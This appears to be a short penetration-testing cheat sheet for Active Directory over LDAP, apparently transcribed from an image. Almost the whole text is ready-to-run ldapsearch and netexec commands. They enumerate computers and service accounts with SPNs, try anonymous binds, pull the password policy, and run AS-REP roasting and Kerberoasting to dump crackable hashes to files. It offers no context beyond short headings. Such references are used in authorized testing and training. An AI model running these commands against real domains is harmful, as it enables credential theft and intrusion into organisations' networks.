 ## Enumerate computer objects
```bash
ldapsearch -x -H ldap://$IP -b "DC=domain,DC=local" "(objectClass=computer)" dNSHostName
```

## Find accounts with SPNs
```bash
ldapsearch -x -H ldap://$IP -b "DC=domain,DC=local" "(servicePrincipalName=*)" servicePrincipalName
```

## Find service accounts with SPNs
```bash
ldapsearch -x -H ldap://$IP -b "DC=domain,DC=local" "(&(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName
```

## Enumerate with netexec anonymously
```bash
# Add --users --groups for comprehensive enumeration
netexec ldap $IP -u '' -p ''
```

## Authenticated LDAP search
```bash
ldapsearch -x -H ldap://$IP -D "username@domain.local" -w password -b "DC=domain,DC=local" "(objectClass=user)"
```

## Get password policy
```bash
# netexec method (simpler) OR ldapsearch for detailed LDAP query
netexec ldap $IP -u username -p password --pass-pol
```

## ASREPRoast via LDAP with netexec
```bash
netexec ldap $IP -u username -p password --asreproast asrep.txt
```

## Kerberoast via LDAP with netexec
```bash
netexec ldap $IP -u username -p password --kerberoasting kerb.txt
```

## Connect to LDAPS with SSL
```bash
ldapsearch -x -H ldaps://$IP:636 -b "DC=domain,DC=local"
```
